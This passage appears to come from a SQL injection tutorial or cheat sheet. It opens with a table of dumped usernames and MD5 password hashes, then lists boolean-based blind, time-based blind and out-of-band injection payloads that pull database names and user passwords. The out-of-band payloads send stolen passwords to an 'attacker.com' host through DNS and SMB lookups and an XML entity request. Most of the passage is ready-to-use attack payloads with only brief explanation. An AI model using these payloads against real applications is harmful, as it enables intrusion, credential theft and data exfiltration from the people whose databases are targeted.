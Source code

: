 **How it works:**
* Retrieves data from the `users` table.
* Uses `GROUP_CONCAT()` to merge multiple rows.

**Expected Output:**

| ID | First name                                                                               | Surname |
|----|------------------------------------------------------------------------------------------|---------|
| 5  | Bob                                                                                      | Smith   |
| 5  | 5:bobsmith:5f4dcc3b5aa765d61d8327deb882cf99,6:alicej:e99a18c428cb38d5f260853678922e03 | 2       |

---

## 6. Advanced SQL Injection Techniques

### Boolean-Based Blind SQL Injection

Used when the application doesn't return SQL errors or query results but behaves differently based on whether a query returns TRUE or FALSE.

```sql
' AND 1=1 -- 
' AND 1=2 -- 
' AND SUBSTRING((SELECT DATABASE()),1,1)='a' -- 
' AND ASCII(SUBSTRING((SELECT DATABASE()),1,1))=97 -- 
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database() AND table_name='users')=1 -- 
' AND (SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE user_id=1),1,1)) & 128) = 128 -- 
```

### Time-Based Blind SQL Injection

Used when there's no visible output difference but we can infer information based on response delays.

```sql
'; WAITFOR DELAY '00:00:05' -- 
' OR SLEEP(5) -- 
' AND IF(SUBSTRING((SELECT DATABASE()),1,1)='a', SLEEP(5), 0) -- 
' AND (SELECT * FROM (SELECT(SLEEP(5)))a) -- 
' AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE user_id=1),1,1))=97, SLEEP(5), 0) -- 
'; IF (SELECT COUNT(*) FROM users WHERE username='admin' AND SUBSTRING(password,1,1)='a')=1 WAITFOR DELAY '00:00:05' -- 
```

### Out-of-Band SQL Injection

Used when we can trigger DNS or HTTP requests to exfiltrate data.

```sql
' AND (SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users WHERE user_id=1),'.attacker.com\\file.txt'))) -- 
'; EXEC master..xp_dirtree '\\'+(SELECT password FROM users WHERE user_id=1)+'.attacker.com\share' -- 
' AND (SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE user_id=1)||'.attacker.com/"> %remote;]>'),'/l') FROM DUAL) IS NOT NULL -- 
```
